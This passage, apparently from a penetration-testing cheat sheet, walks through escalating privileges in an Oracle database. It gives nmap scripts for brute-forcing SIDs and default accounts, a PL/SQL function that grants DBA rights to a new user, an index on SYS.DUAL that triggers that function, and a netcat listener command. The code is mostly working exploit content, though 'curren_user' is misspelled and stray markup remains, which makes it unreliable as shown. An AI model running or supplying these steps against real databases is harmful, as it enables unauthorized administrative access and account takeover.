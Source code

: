 The function will be executed by SYS user (as that's the user that owns
the table).
</li>
<li>
Create an account with DBA priveleges
</li>
</ol>
<p>
In the example below the user SCOTT is used but this should be possible
with another default Oracle account.
</p>
<h5 id="identify-default-accounts-within-oracle-db-using-nmap-nse-scripts">
Identify default accounts within oracle db using NMAP NSE scripts:
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>nmap --script=oracle-sid-brute 
nmap --script=oracle-brute 
</code></pre>
:::
::::

<p>
Login using the identified weak account (assuming you find one).
</p>
<h5 id="how-to-identify-the-current-privilege-level-for-an-oracle-user">
How to identify the current privilege level for an oracle user:
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>SQL&gt; select * from session_privs; 

SQL&gt; CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
curren_user is 
pragma autonomous_transaction; 
begin 
execute immediate 'grant dba to user1 identified by pass1';
commit;
return 'FOO';
end;
</code></pre>
:::
::::

<h5 id="oracle-priv-esc-and-obtain-dba-access">
Oracle priv esc and obtain DBA access:
</h5>
<p>
Run netcat: `<code>`{=html}netcat -nvlp 443`</code>`{=html}code\>
</p>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>SQL&gt; create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));
</code></pre>
:::
::::
